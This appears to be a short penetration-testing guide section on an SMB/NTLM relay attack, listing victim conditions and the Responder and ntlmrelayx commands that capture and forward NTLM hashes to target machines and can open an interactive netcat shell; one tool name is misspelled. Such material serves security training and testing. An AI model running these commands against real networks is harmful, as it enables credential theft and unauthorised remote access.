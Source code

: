 ![](/media/gso_demo_smbrelaysmbsignenum.png)

Victim action:

1. The victim must have Network discovery enabled.
2. The victim must attempts to access a shared resource using a reference that triggers unsuccessful DNS name resolution.

Adversary enumeration:

2. Run responder `responder -I eth0 -wF -v` (HTTP and SMB servers must appear 'OFF')
3. Run NTLMRelayx `netlmrelayx -tf {file_targets} -smb2support [-i]`
    - The `{file_targets}` is a text file that lists the computers to which the captured NTLM hashes are going to be forwarded.
    - The `-i` flag will allow you to start an interactive shell with the remote computer using `nc` (netcat).

![](/media/gso_demo_smbrelaysetupntlmrelayx.png)
